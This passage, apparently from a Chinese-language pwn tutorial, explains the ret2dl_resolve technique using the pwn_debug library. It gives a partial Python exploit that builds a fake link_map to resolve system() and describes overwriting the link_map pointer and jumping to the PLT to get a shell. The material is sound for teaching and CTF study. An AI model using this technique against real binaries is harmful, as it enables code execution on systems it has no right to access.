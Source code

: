 下面就来说说利用的脚本了：

```python
from pwn_debug import *

pdbg=pwn_debug("./binary64")
pdbg.local()
p=pdbg.run("local")
libc=ELF("libc.so.6")
elf=ELF("binary64")

offset=libc.symbols['system']-libc.symbols['__libc_start_main']
got_libc_address=elf.got['__libc_start_main']
dl=pdbg.ret2dl_resolve()
fake_link_map=dl.build_link_map(fake_addr,reloc_index,offset,got_libc_address)

```
首先我们需要知道远程服务器glibc版本，没有的话也可以猜猜碰运气，然后算出我们想要执行的gadget距离`__libc_start_main`的偏移，`build_link_map`方法的参数意思也很明显了，`fake_addr`是我们要基于这个位置生成`fake_link_map`数据，`reloc_index`是我们之后执行`plt_call_gadget`对应的`reloc`

最后利用的时候，我们要将生成的`fake_link_map`数据写入`fake_addr`地址处，还将要程序link_map_got表(got+4)中的`link_map`地址写成`fake_addr`地址，最后跳去plt表的`push reloc`指令地址处执行,之前要构造好参数，最后进入`dl_runtime_resolve`函数，根据link_map解析到调用函数，getshell.



## Related Links


[如何在32位系统中使用ROP+Return-to-dl来绕过ASLR+DEP](https://www.freebuf.com/articles/system/149214.html)

[在64位系统中使用ROP+Return-to-dl-resolve来绕过ASLR+DEP](https://www.freebuf.com/articles/system/149364.html)

[ret2dl_resolve解析](https://www.anquanke.com/post/id/184099#h2-0)

[roputils.pyc文件](https://github.com/yxshyj/project/tree/master/pwn/Return-to-dl-resolve)

[pwn_debug库](https://github.com/ray-cp/pwn_debug)
